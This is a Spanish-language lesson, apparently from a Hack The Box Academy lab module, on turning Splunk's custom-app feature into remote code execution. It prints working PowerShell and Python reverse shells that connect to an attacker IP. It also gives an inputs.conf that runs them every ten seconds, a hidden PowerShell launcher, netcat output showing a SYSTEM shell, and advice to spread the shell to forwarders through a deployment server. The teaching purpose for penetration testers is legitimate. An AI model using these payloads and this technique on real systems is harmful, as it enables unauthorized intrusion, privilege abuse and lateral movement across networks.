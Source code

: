 Como se discutió en la sección anterior, podemos obtener ejecución remota de código en Splunk creando una aplicación personalizada para ejecutar scripts en Python, Batch, Bash o PowerShell. A partir del escaneo de descubrimiento de Nmap, notamos que nuestro objetivo es un servidor Windows. Dado que Splunk viene con Python instalado, podemos crear una aplicación personalizada de Splunk que nos proporcione ejecución remota de código utilizando Python o un script de PowerShell.

---

## Abusing Built-In Functionality

Podemos usar [este](https://github.com/0xjpuff/reverse_shell_splunk) paquete de Splunk para ayudarnos. El directorio `bin` en este repositorio tiene ejemplos para [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) y [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Vamos a repasarlo paso a paso.

Para lograr esto, primero necesitamos crear una aplicación personalizada de Splunk utilizando la siguiente estructura de directorios:

```r
tree splunk_shell/

splunk_shell/
├── bin
└── default

2 directories, 0 files
```

El directorio `bin` contendrá cualquier script que pretendamos ejecutar (en este caso, una reverse shell en PowerShell), y el directorio `default` tendrá nuestro archivo `inputs.conf`. Nuestra reverse shell será una línea de comando en PowerShell.

```r
# A simple and small reverse shell. Options and help removed to save space. 
# Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

El archivo [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) le dice a Splunk qué script ejecutar y cualquier otra condición. Aquí configuramos la aplicación como habilitada y le decimos a Splunk que ejecute el script cada 10 segundos. El intervalo siempre está en segundos, y el input (script) solo se ejecutará si esta configuración está presente.

```r
cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

Necesitamos el archivo .bat, que se ejecutará cuando la aplicación sea desplegada y ejecutará la línea de comando de PowerShell.

```r
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Una vez que los archivos estén creados, podemos crear un tarball o archivo `.spl`.

```r
tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

El siguiente paso es elegir `Install app from file` y subir la aplicación.

`https://10.129.201.50:8000/en-US/manager/search/apps/local`

![](https://academy.hackthebox.com/storage/modules/113/install_app.png)

Antes de subir la aplicación personalizada maliciosa, iniciemos un listener usando Netcat o [socat](https://linux.die.net/man/1/socat).

```r
sudo nc -lnvp 443

listening on [any] 443 ...
```

En la página `Upload app`, haz clic en browse, elige el tarball que creamos anteriormente y haz clic en `Upload`.

`https://10.129.201.50:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal`

![](https://academy.hackthebox.com/storage/modules/113/upload_app.png)

Tan pronto como subamos la aplicación, se recibe una reverse shell ya que el estado de la aplicación se cambiará automáticamente a `Enabled`.

```r
sudo nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.50] 53145


PS C:\Windows\system32> whoami

nt authority\system


PS C:\Windows\system32> hostname

APP03


PS C:\Windows\system32>
```

En este caso, obtuvimos una shell como `NT AUTHORTY\SYSTEM`. Si esto fuera una evaluación del mundo real, podríamos proceder a enumerar el objetivo en busca de credenciales en el registro, la memoria o almacenadas en otro lugar del sistema de archivos para usarlas en el movimiento lateral dentro de la red. Si este fuera nuestro punto de entrada inicial en el entorno de dominio, podríamos usar este acceso para comenzar a enumerar el dominio de Active Directory.

Si estuviéramos tratando con un host Linux, necesitaríamos editar el script en Python `rev.py` antes de crear el tarball y subir la aplicación maliciosa personalizada. El resto del proceso sería el mismo, y obtendríamos una conexión de reverse shell en nuestro listener de Netcat y estaríamos listos para continuar.

```r
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

Si el host de Splunk comprometido es un servidor de despliegue, probablemente sea posible lograr RCE en cualquier host con Universal Forwarders instalados en ellos. Para enviar una reverse shell a otros hosts, la aplicación debe colocarse en el directorio `$SPLUNK_HOME/etc/deployment-apps` en el host comprometido. En un entorno predominantemente Windows, necesitaremos crear una aplicación utilizando una reverse shell de PowerShell ya que los Universal forwarders no se instalan con Python como el servidor de Splunk.